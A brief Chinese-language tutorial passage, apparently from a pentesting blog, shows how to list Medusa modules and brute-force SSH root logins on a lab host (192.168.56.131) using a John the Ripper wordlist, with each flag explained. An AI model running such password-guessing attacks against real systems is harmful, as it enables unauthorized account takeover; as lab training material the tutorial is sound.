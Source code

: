 # 例如：查看已安装的所有模块

```bash
medusa -d
```

![在这里插入图片描述](./assets/6f6bd2280847406b8f041f36a87b10b7.png)

# 例如：爆破 ssh 协议

用到的自带字典 ：/usr/share/john/password.lst 或 /usr/share/wordlists/ 下面的某个字典
**参数解释：**
**-h：要爆破的目标主机IP地址 192.168.56.131
-l：要爆破的用户名 root
-P：要爆破的密码字典 用的字典是我自己弄的
-M：调用模块ssh执行
-f：一旦爆破成功一个就立即停止爆破**

```bash
medusa -M ssh -h 192.168.56.131 -u root -P /usr/share/john/password.lst -f
```

![在这里插入图片描述](./assets/1597d116c2074912afe530bead6fa0cb.png)
